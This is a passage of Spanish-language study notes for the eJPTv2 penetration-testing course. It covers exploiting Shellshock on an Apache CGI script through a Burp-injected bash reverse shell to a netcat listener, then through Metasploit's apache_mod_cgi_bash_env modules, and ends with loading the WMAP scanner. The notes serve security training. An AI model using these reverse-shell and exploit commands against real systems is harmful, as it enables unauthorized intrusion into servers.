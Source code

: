 ```bash
nc -lvnp 1234
```

- Volvemos a Burp y sustituimos el comando “cat” por el siguiente:

```bash
bash -i>&/dev/tcp/<IP_Local>/1234 0>&1
```

- Pulsamos “Send”, y deberíamos obtener una reverse shell.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2057.png)

Ahora vamos a ver como se explota con **Metasploit**. El módulo para comprobar si el sistema tiene esta vulnerabilidad es:

```bash
use auxiliary/scanner/http/apache_mod_cgi_bash_env
```

Si es vulnerable, utilizamos el siguiente exploit:

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Tenemos que especificar el objetivo (IP y puerto, en este ejemplo, 80), el target URI, que es la localización del fichero .cgi ( /gettime.cgi) y lanzar el exploit.

```bash
set TARGETURI /gettime.cgi
```

Y conseguimos una sesión meterpreter.

### Análisis de vulnerabilidades con WMAP

Se trata de una aplicación para escanear vulnerabilidades de aplicaciones web y se puede usar también para enumeración de servidores web. Está disponible como un plugin de MSF. Para cargar el módulo, simplemente tenemos que introducir el siguiente comando en msfconsole:

```bash
msf5 > load wmap
msf5 > wmap
msf5 > wmap_ # Para ver posibles usos
```
